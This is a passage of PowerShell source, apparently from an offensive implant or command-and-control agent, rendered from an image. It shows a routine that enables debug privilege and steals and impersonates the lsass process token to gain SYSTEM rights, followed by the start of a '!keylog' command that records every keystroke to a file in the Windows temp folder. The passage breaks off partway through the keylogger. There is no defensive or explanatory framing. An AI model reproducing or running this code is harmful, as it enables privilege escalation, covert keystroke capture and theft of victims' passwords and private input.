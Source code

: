                 $retVal = [Win32Methods]::LookupPrivilegeValue($null, "SeDebugPrivilege", [ref]$tokPriv1Luid.Luid)

                $htoken = [IntPtr]::Zero
                $retVal = [Win32Methods]::OpenProcessToken($GetCurrentProcess.Invoke($null, @()), $TOKEN_ALL_ACCESS, [ref]$htoken)

                $tokenPrivileges = New-Object TOKEN_PRIVILEGES
                $retVal = [Win32Methods]::AdjustTokenPrivileges($htoken, $false, [ref]$tokPriv1Luid, 12, [IntPtr]::Zero, [IntPtr]::Zero)

                if(-not($retVal)) {
                    Return
                }

                $process = (Get-Process -Name lsass)
                [IntPtr]$hlsasstoken = [IntPtr]::Zero
                $retVal = [Win32Methods]::OpenProcessToken($process.Handle, ($TOKEN_IMPERSONATE -bor $TOKEN_DUPLICATE), [ref]$hlsasstoken)

                [IntPtr]$dulicateTokenHandle = [IntPtr]::Zero
                $retVal = [Win32Methods]::DuplicateToken($hlsasstoken, 2, [ref]$dulicateTokenHandle)

                $retval = [Win32Methods]::SetThreadToken([IntPtr]::Zero, $dulicateTokenHandle)
                if(-not($retVal)) {
                    Return
                }
            }
        }

        #This implements the !keylog command which will log all keys to c:\windows\temp\key.log  
        #Ex: !keylog
        Function KeyLog {
            $ScriptBlock = {

            [string] $OutPath = 'c:\windows\temp\key.log'

                function LogKey {
                    $ImportStatement = @'
[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)] 
public static extern short GetAsyncKeyState(int virtualKeyCode); 

[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int GetKeyboardState(byte[] keystate);

[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MapVirtualKey(uint uCode, int uMapType);

[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff, uint wFlags);
 
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern IntPtr GetForegroundWindow();
'@
                    #required imports
                    $ImportDll = Add-Type -MemberDefinition $ImportStatement -Namespace Win32 -Name Util -PassThru
    